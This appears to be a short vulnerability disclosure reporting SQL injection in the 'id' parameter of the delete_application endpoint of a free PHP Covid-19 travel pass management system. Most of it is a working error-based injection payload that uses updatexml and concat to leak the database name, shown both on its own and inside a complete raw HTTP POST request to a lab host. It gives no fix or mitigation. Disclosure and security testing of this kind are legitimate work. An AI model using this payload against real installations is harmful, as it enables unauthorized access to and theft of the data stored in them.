 # Covid-19 Travel Pass Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Vulnerability File: /ctpms/classes/Master.php?f=delete_application

Vulnerability location: /ctpms/classes/Master.php?f=delete_application, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /ctpms/classes/Master.php?f=delete_application HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/ctpms/admin/?page=applications/view_application&id=1
Content-Length: 65
Cookie: PHPSESSID=sbd29ujtf9eelnf4f6rlt8ikfi
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/167080261-533dc081-e05f-47fe-9b1a-f1f30ba13c4c.png)
